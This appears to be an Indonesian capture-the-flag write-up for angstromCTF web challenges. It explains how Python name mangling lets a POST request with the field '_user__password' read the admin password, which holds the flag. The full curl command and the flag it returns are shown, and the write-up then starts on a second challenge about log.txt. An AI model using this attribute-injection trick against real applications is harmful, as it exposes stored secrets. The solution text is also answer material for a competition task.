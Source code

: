 ```python
class user:
    def __init__(self, username, password):
        self.username = username
        self.__password = password
        self.files = []
    def getPass(self):
        return self.__password

users = {}
users["admin"] = user("admin", os.environ["FLAG"])
```

pada baris kode ini kita bisa lihat flag yang di ambil dari environment di masukan sebagai password dari user admin
berarti untuk mendapatkan flag kita harus bisa mendapatkan password dari admin yg mana adalah flag :D
variable untuk password adalah `__password` tapi untuk memunculkan password kita tidak bisa langsung memanggil field `__password` 
karena double underscore pada variable disini memiliki arti (_classname__attributename) sebutannya adalah (Name Mangling)

```
Any identifier of the form __spam (at least two leading underscores, 
at most one trailing underscore) is textually replaced with 
_classname__spam, where classname is the current class name
with leading underscore(s) stripped. This mangling is done 
without regard to the syntactic position of the identifier, 
so it can be used to define class-private instance and class
 variables, methods, variables stored in globals, and even 
 variables stored in instances. private to this class on 
 instances of other classes.
```

```
Sat 17:02:01 with root in /tmp/test on  1233bda 
•% ➜ curl -X POST http://web2.angstromctf.com:8899/user/admin -d "field=_user__password"
actf{2_und3rsc0res_h1des_n0th1ng}#
```

untuk lebih legkap tentang underscore pada python bisa lihat di `https://shahriar.svbtle.com/underscores-in-python`


### THE BEST WEBSITE
---
WEB, 230
I have created what I believe to be the best website ever. Or maybe it's just really boring. I don't know.
`Hint: My database is humongous!` => MongoDB ?


`<!--developers: make sure to record your actions in log.txt-->` => `http://web.angstromctf.com:7667/log.txt`
